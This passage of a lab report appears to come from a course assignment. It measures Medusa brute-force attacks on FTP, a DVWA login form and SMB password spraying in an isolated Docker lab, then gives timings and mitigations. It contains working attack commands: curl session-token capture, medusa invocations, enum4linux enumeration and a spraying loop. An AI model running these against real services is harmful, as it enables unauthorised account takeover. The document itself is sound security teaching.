|  |
|:--:|
| _FTP brute-force attack result, trial 1_ |

### 5.2 Web brute-force attack

#### Trial 1 (9 users, `00aa`, web):

```bash
bash scripts/11-web-attack.sh \
  --users wordlists/trial1-users.txt \
  --passwords wordlists/trial1-passwords.txt \
  --credentials wordlists/trial1-credentials.txt
```

The script first obtains an authenticated DVWA session:

```bash
COOKIE=/tmp/dvwa.cookie
TOKEN=$(curl -s -c "$COOKIE" http://172.28.0.11/DVWA/login.php \
  | awk -F"value='" '/user_token/ {print $2}' | cut -d"'" -f1)

curl -s -b "$COOKIE" -c "$COOKIE" \
  -d "username=admin&password=${ADMIN_PASS}&user_token=${TOKEN}&Login=Login" \
  http://172.28.0.11/DVWA/login.php

curl -s -b "$COOKIE" -c "$COOKIE" \
  -d "security=low&seclev_submit=Submit" \
  http://172.28.0.11/DVWA/security.php

SESSION=$(awk '$6 == "PHPSESSID" {print $7}' "$COOKIE")
```

It then runs:

```bash
medusa -h 172.28.0.11 \
  -U /wordlists/trial1-users.txt \
  -P /wordlists/trial1-passwords.txt \
  -M web-form \
  -m FORM:"/DVWA/vulnerabilities/brute/" \
  -m DENY-SIGNAL:"Username and/or password incorrect" \
  -m FORM-DATA:"get?username=&password=&Login=Login" \
  -m CUSTOM-HEADER:"Cookie: security=low; PHPSESSID=${SESSION}" \
  -t 1 \
  -O /logs/medusa-web-trial1.log
```

|  |
|:--:|
| _web service brute-force attack result, trial 1 (1/2)_ |

|  |
|:--:|
| _web service brute-force attack result, trial 1 (2/2)_ |

### 5.3 SMB password spraying

Spraying is performed only in trial 1, because it requires multiple users.

User enumeration:

```bash
bash scripts/12-smb-attack.sh \
  --users wordlists/trial1-users.txt \
  --spray wordlists/trial1-spray.txt
```

Enumeration command inside Kali:

```bash
enum4linux -U -S -P 172.28.0.12 | tee /logs/enum4linux-smb-trial1.log
```

Password spraying:

```bash
while IFS= read -r pass; do
  medusa -h 172.28.0.12 \
    -U /wordlists/trial1-users.txt \
    -p "$pass" \
    -M smbnt \
    -m GROUP:LOCAL \
    -m AUTH:LMv2 \
    -m MODE:AUTO \
    -t 1 \
    -O /logs/medusa-smb-trial1.log
done < /wordlists/trial1-spray.txt
```

The `trial1-spray.txt` list has 10 passwords and includes `12ab`. The `backup` user has this fixed password, so spraying should find it. The other users have random passwords that are not in the spraying list.

Expected result:

- `backup` / `12ab` found;
- other users not found by spraying.

|  |
|:--:|
| _SMB spraying attack result, trial 1 (1/2)_ |

|  |
|:--:|
| _SMB spraying attack result, trial 1 (2/2)_ |

### 5.4 Running trial 2

Trial 2 repeats the brute-force attacks against the FTP and web services. Since the details are in the previous sections, we will go straight to running them.

Trials 2 and 3 also stop after finding the first valid password. The `-f` option ensures this. Therefore, these runs are expected to be faster, and the main goal is to compare the time to find a 4-character password with the time to find a 5-character password.

The first step is to recreate the services with trial 2 credentials:

```bash
bash scripts/03-ftp-install-config.sh --credentials wordlists/trial2-credentials.txt
bash scripts/05-web-install-config.sh --credentials wordlists/trial2-credentials.txt
bash scripts/07-smb-install-config.sh --credentials wordlists/trial2-credentials.txt
```

#### Trial 2 (1 user, `00aa`, FTP):

```bash
bash scripts/10-ftp-attack.sh \
  --users wordlists/trial2-users.txt \
  --passwords wordlists/trial2-passwords.txt
```

|  |
|:--:|
| _FTP brute-force attack result, trial 2_ |

#### Trial 2 (1 user, `00aa`, web):

```bash
bash scripts/11-web-attack.sh \
  --users wordlists/trial2-users.txt \
  --passwords wordlists/trial2-passwords.txt \
  --credentials wordlists/trial2-credentials.txt
```

|  |
|:--:|
| _web brute-force attack result, trial 2_ |

### 5.5 Running trial 3

The same applies to trial 3:

```bash
bash scripts/03-ftp-install-config.sh --credentials wordlists/trial3-credentials.txt
bash scripts/05-web-install-config.sh --credentials wordlists/trial3-credentials.txt
bash scripts/07-smb-install-config.sh --credentials wordlists/trial3-credentials.txt
```

#### Trial 3 (1 user, `000aa`, FTP):

```bash
bash scripts/10-ftp-attack.sh \
  --users wordlists/trial3-users.txt \
  --passwords wordlists/trial3-passwords.txt
```

|  |
|:--:|
| _FTP brute-force attack result, trial 3_ |

#### Trial 3 (1 user, `000aa`, web):

```bash
bash scripts/11-web-attack.sh \
  --users wordlists/trial3-users.txt \
  --passwords wordlists/trial3-passwords.txt \
  --credentials wordlists/trial3-credentials.txt
```

|  |
|:--:|
| _web brute-force attack result, trial 3_ |

## 6. Results and timings

Results for each trial:

| # | Service | Users | Pattern | Attempts | Total time | Found |
|---|---------|-------|---------|----------|------------|-------|
| 1 | FTP     | 9     | `00aa`  | 526,500  | 00:17:44   | 8/9   |
| 1 | Web     | 9     | `00aa`  | 526,500  | 00:08:00   | 9/9   |
| 1 | SMB     | 9     | `00aa`  | 90       | 00:00:04   | 1/1   |
| 2 | FTP     | 1     | `00aa`  | 6,501    | 00:00:14   | 1/1   |
| 2 | Web     | 1     | `00aa`  | 6,501    | 00:00:11   | 1/1   |
| 3 | FTP     | 1     | `000aa` | 52,651   | 00:02:42   | 1/1   |
| 3 | Web     | 1     | `000aa` | 52,651   | 00:01:23   | 1/1   |

Expected comparison:

- `000aa` has 8 times as many combinations as `00aa`;
- the fixed passwords `12ab` and `123ab` are at similar relative positions (~11%);
- trial 3 should take approximately 8 times as long as trial 2 if throughput is the same.

## 7. Mitigation measures

### 7.1 General

- Strong password policy with appropriate length and complexity.
- Adequate length is the most effective way to prevent brute-force attacks, since each additional character increases the attack time exponentially.
- Use MFA whenever the service allows it, since MFA invalidates the vast majority of brute-force and spraying attack methods.
- Temporarily lock accounts after failed attempts.
- Rate limiting and detection of brute-force patterns.
- Monitor and alert on multiple consecutive authentication failures.
- The principle of least privilege can help even if a breach occurs.
- Network segmentation and restricted access to services.
- Periodic account reviews and removal of default accounts.

### 7.2 FTP

- Disable anonymous access.
- Use FTPS or SFTP instead of plain FTP.
- Apply account lockout and `fail2ban`.
- Restrict access by IP and network.
- Use strong, unique passwords.
- Monitor failed logins and transfers.

### 7.3 Web

- Implement rate limiting and account lockout.
- Use MFA for administrative accounts.
- Store passwords with modern algorithms such as Argon2 or bcrypt; DVWA's MD5 is intentionally insecure.
- Protect forms with CSRF tokens, CAPTCHA, and server-side validation.
- Use a WAF and monitor login attempts.
- Do not expose vulnerable applications to the internet.

### 7.4 SMB

- Disable SMB1 and require SMB2/3.
- Require SMB signing and NTLMv2; disable NTLMv1.
- Disable anonymous enumeration (`restrict anonymous = 2`).
- Apply account lockout and a strong password policy.
- Restrict the share by group and IP.
- Monitor authentication and enumeration attempts.

### 7.5 Lab-specific settings

The settings below were used only to enable testing and should not be replicated in production:

- `server min protocol = NT1` in Samba;
- `ntlm auth = yes` in Samba;
- `restrict anonymous = 0` in Samba;
- `default_security_level=low` in DVWA;
- short and predictable passwords;
- MD5 for password storage in DVWA.

## 8. Conclusion

The trials show that the result depends on both the size of the search space and the speed and characteristics of the service. In trial 2, the password `12ab` was found on attempt 6,501: FTP took **00:00:14** and the web form **00:00:11**. In trial 3, `123ab` appeared on attempt 52,651: FTP took **00:02:42** and the web service **00:01:23**. Although the `000aa` pattern has eight times as many combinations as `00aa`, the observed times were about **11.6 times** longer for FTP and **7.5 times** longer for the web service. The comparison is consistent with the growth of the search space, but it is not an exact proportion: these are measurements from individual runs, affected by throughput, latency, concurrency, and each service's own costs. The fixed passwords are at similar relative positions (about 11% of the list), making the trials comparable.

In trial 1, with nine users and the `00aa` list, the web service found **9/9** credentials in **00:08:00**, while FTP found **8/9** in **00:17:44**. Thus, in this trial, the web service completed the search in less than half the time FTP took, but the `root` password was not found on FTP. This is a defense of the FTP service used in the environment. SMB password spraying found `backup` / `12ab` among 90 attempts in **00:00:04**. This time includes enumeration and validation, so it is not directly comparable to the time for a single authentication attempt on the other services. However, it achieves a result in the shortest possible time and is generally harder to detect.

The results also show differences in configuration and protocol: low-security DVWA accepts automated attempts against the form, and SMB credentials could be enumerated before spraying. This is a controlled demonstration, not a universal estimate of the time required to crack passwords. It depends on hardware, service versions and configurations, thread count, network, and Medusa parameters. In addition, the environment uses short, predictable passwords, and SMB was deliberately configured to allow enumeration and compatibility with the test, following the example used by the instructors during class. Together, the trials reinforce the need for long, unique passwords, MFA, attempt limits, monitoring, and secure protocols and configurations.

Detailed evidence is in the versioned logs in `logs/`: `10-ftp-attack-20261029-150038.log` and `11-web-attack-20261029-153043.log` record trial 1; `12-smb-attack-20261029-154710.log` records enumeration and spraying; `10-ftp-attack-20261029-162654.log` and `11-web-attack-20261029-162919.log` record trial 2; `10-ftp-attack-20261029-164035.log` and `11-web-attack-20261029-165041.log` record trial 3. The screenshots associated with the attacks are images `017`–`025` referenced in section 5. The table in section 6 summarizes the timings and counts used in this analysis.

## 9. References

- Kali Linux: https://www.kali.org/
- DVWA: https://github.com/digininja/DVWA
- Medusa: https://jmk-foofus.github.io/medusa/medusa.html
- Medusa SMBNT: https://jmk-foofus.github.io/medusa/medusa-smbnt.html
- Nmap: https://nmap.org/book/man.html
- SecLists: https://github.com/danielmiessler/SecLists
- SANS ISC: https://isc.sans.edu/
- Docker: https://docs.docker.com/
- Samba `smb.conf`: https://www.samba.org/samba/docs/current/man-html/smb.conf.5.html
- OWASP WSTG: https://owasp.org/www-project-web-security-testing-guide/
- OWASP Authentication Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
